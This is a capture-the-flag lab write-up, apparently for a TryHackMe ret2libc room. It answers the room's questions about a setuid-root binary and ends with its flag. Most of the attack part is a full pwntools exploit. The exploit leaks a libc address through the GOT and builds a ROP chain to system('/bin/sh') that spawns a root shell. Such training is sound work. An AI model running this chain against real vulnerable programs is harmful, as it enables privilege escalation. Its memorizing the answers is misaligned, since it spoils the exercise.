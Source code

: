 # ret2libc

### Introduction
- What is the name of the function which is essential for ret2libc attack? `system`

### Review of the binary
- What are the permissions of the exploit_me binary?<br />
![image](https://github.com/user-attachments/assets/e60d1fc6-5b0a-40d5-bdf7-a0b59103dc5f)<br />
`-rwsrwxr-x 1 root root`
- At which address will exploit_me binary start?<br />
PIE is disabled, which means that our binary will always start at the address 0x400000 and won't be affected by ASLR.<br />
`0x400000`
(PIE disabled means that ASLR won't affect this binary, yet ASLR is still enabled on this system, but the thing which is being affected is the libc, which is dynamically linked to our binary and is mandatory for our ret2libc attack to work)<br />
- What is the overflow offset that we found in gdb?<br />
![image](https://github.com/user-attachments/assets/296a06c4-803a-4eb0-9f84-6eb5adf6306e)<br />
`18`

### ASLR & GOT
- What is the name of the section of the binary which is important for our leak?<br /> `.got.plt`

### Examining in the Ghidra
- What is the name of the function that is under gets in .got.plt?<br />
`setuid`

### Creating the exploit
- What is the flag?<br />
Execute the following python code:

      #!/usr/bin/env python3
      from pwn import *
      
      context.binary = binary = './exploit_me'
      elf = ELF(binary)
      rop = ROP(elf)
      
      libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
      
      p = process()
      
      padding = b'A'*18
      payload = padding
      payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
      payload += p64(elf.got.gets)
      payload += p64(elf.plt.puts)
      payload += p64(elf.symbols.main)
      
      p.recvline()
      p.sendline(payload)
      p.recvline()
      leak = u64(p.recvline().strip().ljust(8,b'\0'))
      p.recvline()
      
      log.info(f'Gets leak => {hex(leak)}')
      libc.address = leak - libc.symbols.gets
      log.info(f'Libc base => {hex(libc.address)}')
      
      payload = padding
      payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
      payload += p64(next(libc.search(b'/bin/sh')))
      payload += p64(rop.find_gadget(['ret'])[0])
      payload += p64(libc.symbols.system)
      
      p.sendline(payload)
      p.recvline()
      p.interactive()

![image](https://github.com/user-attachments/assets/f173ec6f-f080-45a8-ad4f-beeb94815ca6)<br />
`thm{dGhlIG1vc3QgcmFuZG9tIHZhbHVlIHlvdSBjb3VsZCBldmVyIGd1ZXNz}`
